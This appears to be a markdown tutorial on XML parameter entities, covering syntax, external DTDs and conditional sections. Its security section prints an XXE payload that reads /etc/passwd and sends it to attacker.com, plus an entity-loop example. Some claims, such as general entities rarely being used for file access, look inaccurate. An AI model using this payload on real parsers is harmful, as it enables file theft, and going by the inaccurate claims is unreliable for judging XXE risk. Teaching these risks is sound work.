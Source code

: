 # XXE Indepth


Parameter entities in XML are used within DTDs (Document Type Definitions) and are different from general entities, which are used in the XML content itself. Parameter entities are primarily used for defining reusable content or DTD fragments and help in structuring DTDs in a modular way.


## What Are Parameter Entities?

Parameter entities are declared with a % character, followed by the entity name, and are used in DTDs (not in the XML document body).
They are typically employed to include reusable DTD fragments or configuration within the DTD.
To reference a parameter entity, you need to use %entityName; inside the DTD.

### Syntax for Declaring Parameter Entities


<!ENTITY % entityName "replacement text or value">

%entityName; will be replaced with "replacement text or value" wherever it is referenced in the DTD.

#### Examples of Parameter Entities

#### 1. Basic Parameter Entity Usage

<!DOCTYPE root [
   <!ENTITY % greeting "Hello, World!">
   <!ELEMENT root (#PCDATA)>
]>
<root>%greeting;</root>

In this example:
The DTD defines a parameter entity named greeting with the value "Hello, World!".
However, this example is incorrect in practice because %greeting; cannot be used directly in the XML document content.

To use the parameter entity, you need to declare an additional general entity:

<!DOCTYPE root [
   <!ENTITY % greeting "Hello, World!">
   <!ENTITY myGreeting "%greeting;">
   <!ELEMENT root (#PCDATA)>
]>
<root>&myGreeting;</root>

Here, myGreeting is a general entity that uses the value of the parameter entity %greeting.

#### 2. Including an External DTD Using Parameter Entities
You can use parameter entities to include external DTDs, making the DTD modular and easier to maintain.


#### External DTD (common.dtd):

<!ENTITY % commonElements "<!ELEMENT greeting (#PCDATA)>">

#### Main XML File:

<!DOCTYPE root [
   <!ENTITY % common SYSTEM "http://example.com/common.dtd">
   %common;
   %commonElements;
]>
<root>
   <greeting>Hello from an external DTD!</greeting>
</root>

In this example:
The parameter entity %common references an external DTD file located at http://example.com/common.dtd.
%commonElements; is used to insert the content from the external DTD (in this case, an element declaration).


#### 3. Conditional DTD Sections Using Parameter Entities
Parameter entities can be used to include or exclude parts of a DTD based on conditional sections.

<!DOCTYPE root [
   <!ENTITY % includeGreeting "INCLUDE">
   <![%includeGreeting;[
      <!ELEMENT greeting (#PCDATA)>
   ]]>
   <!ELEMENT root (greeting)>
]>
<root>
   <greeting>Conditional Greeting Example</greeting>
</root>

In this example:
The %includeGreeting parameter entity determines whether the greeting element is included.
The conditional section <![%includeGreeting;[ ... ]]> is included because %includeGreeting is set to "INCLUDE".

##Security Implications of Parameter Entities

1. #### XML External Entity (XXE) Attacks 

Parameter entities can be used to reference external files or resources, leading to XXE vulnerabilities if the XML parser is not configured securely

<!DOCTYPE root [
   <!ENTITY % file SYSTEM "file:///etc/passwd">
   <!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://attacker.com/?data=%file;'>">
   %eval;
]>
<root>&exfil;</root>
In this XXE example, an external file (/etc/passwd) is accessed and sent to an attacker's server.

2. #### Entity Reference Loops
   Defining parameter entities that reference each other in a circular manner can cause infinite loops:

<!ENTITY % loop "%loop;">
This will trigger a "detected an entity reference loop" error in most XML parsers.

## Differences Between Parameter Entities and General Entities

|        Feature               |            Parameter Entities                            |    General Entities
|------------------------------|:---------------------------------------------------------|--------------------------------------------------------------:
|  Declared with               |         % (e.g., <!ENTITY % name "value">)               |           None (e.g., <!ENTITY name "value">)
|  Usage Scope                 |                Within DTDs only                          |             In XML document content
|  Syntax for Reference        |                %name;                                    |         &name;
|  Typical Use Cases           |         Including DTD fragments,conditional DTD sections |             Embedding content in XML 
|  Security Considerations     |         Can lead to XXE or loops if misconfigured        |                Rarely used for file access


Summary
Parameter entities are a powerful feature in XML DTDs that help in reusing and modularizing DTD content. However, they must be used with caution due to the security risks associated with external entities and potential loops. Proper configuration of XML parsers and secure handling of DTDs is crucial to avoid XXE vulnerabilities.
